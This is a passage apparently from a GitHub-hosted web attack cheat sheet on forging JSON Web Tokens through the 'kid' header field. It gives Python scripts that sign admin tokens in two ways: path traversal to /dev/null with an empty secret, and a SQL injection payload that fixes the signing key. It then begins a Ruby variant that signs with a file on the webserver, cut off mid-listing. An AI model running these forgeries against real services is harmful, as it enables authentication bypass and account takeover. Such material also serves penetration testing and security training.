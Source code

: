     # change the header and the payload
    header = {"typ":"JWT","alg":"HS256","kid":"../../../../../../../../../../../../../../../../dev/null"}
    secret = ""
    payload = {"user":"admin"}

    str = base64.urlsafe_b64encode(json.dumps(header)).rstrip("=")+"."+base64.urlsafe_b64encode(json.dumps(payload)).rstrip("=")

    sig = base64.urlsafe_b64encode(hmac.new(secret, str, hashlib.sha256).digest()).decode('UTF-8').rstrip("=")

    print(str+"."+sig)
    ```

- Sign with SQL injection (python):

    ```python
    import hmac
    import hashlib
    import base64
    import json

    # eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6ImtleTEifQ.eyJ1c2VyIjpudWxsfQ.2B9ZKzJ3FeJ9yoNLDGKgcxOuo05PwDRzFQ_34CrGteQ
    # base64 decoded:
    # header = {"typ":"JWT","alg":"HS256","kid":"key1"}
    # payload = {"user":null}

    # change the header and the payload
    header = {"typ":"JWT","alg":"HS256","kid":"xyzabc' union select 'aaa"}
    secret = "aaa"
    payload = {"user":"admin"}

    str = base64.urlsafe_b64encode(json.dumps(header)).rstrip("=")+"."+base64.urlsafe_b64encode(json.dumps(payload)).rstrip("=")

    sig = base64.urlsafe_b64encode(hmac.new(secret, str, hashlib.sha256).digest()).decode('UTF-8').rstrip("=")

    print(str+"."+sig)
    ```

- Sign with existing file on the webserver (ruby):

    ```ruby
    require 'base64'
    require 'openssl'
